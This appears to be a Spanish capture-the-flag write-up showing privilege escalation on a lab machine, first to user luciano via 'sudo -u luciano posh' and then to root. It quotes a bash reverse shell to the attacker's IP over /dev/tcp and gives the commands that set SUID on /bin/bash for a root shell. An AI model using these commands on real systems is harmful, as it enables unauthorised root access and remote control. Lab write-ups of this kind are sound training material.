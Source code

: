 
Una vez dentro listamos los permisos &#x20;

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permiso como luciano con `POSH` un herramienta de linea de comandos parecida a bash entonces corremos&#x20;

### Usuario Luciano

```bash
sudo -u luciano posh
```

Una ve esto ya somos usuario luciano&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos al buscar SUID vemo que el archivo script.sh tiene permisos Root por lo que vamos a la ubicacion y miramos que tiene

```bash
!/bin/bash\n\nbash 
-c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"''
```

Vemos que es una revershell pero al tratar de modificarla no podemos ni con nano ni con vim por lo que procedo a modificar su contenido con echo

```bash
echo "chmod u+s /bin/bash" > script.sh

```

Le otorgamos ala bash permisos SUID&#x20;

`sudo /bin/bash  /home/luciano/script.sh`

Ejecutamos bash -p para tener una shell como root y...

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt="" width="119"><figcaption></figcaption></figure>

[^1]: 
